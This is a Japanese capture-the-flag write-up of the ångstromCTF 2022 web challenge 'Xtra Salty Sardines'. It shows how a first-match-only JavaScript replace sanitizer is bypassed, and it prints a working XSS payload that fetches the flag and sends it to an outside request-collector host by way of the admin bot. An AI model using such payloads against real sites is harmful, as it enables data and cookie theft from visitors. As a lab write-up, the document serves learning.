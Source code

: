# [WEB] Xtra Salty Sardines 70pts
Clam was intensely brainstorming new challenge ideas, when his stomach growled! He opened his favorite tin of salty sardines, took a bite out of them, and then got a revolutionary new challenge idea. What if he wrote [a site with an extremely suggestive acronym](https://xtra-salty-sardines.web.actf.co/)?

[Source](https://files.actf.co/7173d383e018e4398019bc1990706545915b0ab3a36664b103b3454fb11afd64/index.js), [Admin Bot](https://admin-bot.actf.co/xtra-salty-sardines)
# Solution
初見で解けなかった。\
問題文のタイトルからXSSに関連したやつだな〜と推測。与えられたサイトにアクセスすると、script送ってください感すごいフォームが。`<script>alert('hello');</script>` を送信してみる。すると、表示がおかしいことに気づく。
![結果](images/result.png)\
POSTした文字列が何かしら変換されているっぽいので、ソースコードを読んでみる。
```javascript
~~~

    const name = req.body.name
        .replace("&", "&amp;")
        .replace('"', "&quot;")
        .replace("'", "&apos;")
        .replace("<", "&lt;")
        .replace(">", "&gt;");

~~~
```
JavaScriptのreplaceは最初に一致した文字列のみを置換する。ということで、`<>'<script>alert('hello');</script>` を送信してみると、alertが表示された。これで何かしらのイベントを発生させることができるようになったが、何をしたらいいのかわからず断念。\
writeupを読む。\
XSSペイロードを投稿し、Admin Bot にGETで取得させればいいらしい。

XSSペイロードが何かよくわからないので、調べる

> ペイロード（payload）は、IT用語ではデータ伝送されるパケットのヘッダー部を除いたデータの本体を指します。

うーんわからない、、、とりあえずXSSを引き起こすようなやつ？

[RequestBin](https://requestbin.com/)というHTTPリクエストを記録するサービスを利用してみる

```
<>'<script>fetch('https://xtra-salty-sardines.web.actf.co/flag').then(res => res.text()).then(text => fetch("https://xxxxxxxxxxxxx.x.pipedream.net?s=" + text));</script>
```

を投稿し、生成されたURL(`https://xtra-salty-sardines.web.actf.co/sardines/xxxxxxxxxx`)をadmin bot に送信。RequestBin でリクエストが返ってきてそれに、正解のフラグが含まれていた。

ctfではadmin bot を使った際のCookieをsecretにする？

admin bot にurlを送ったら、admin bot がそのurlを踏む？その際にCookie付きで送る？admin bot の勉強しないと(^_^;)

# Reference
- https://github.com/satoki/ctf_writeups/tree/master/%C3%A5ngstromCTF_2022/Xtra_Salty_Sardines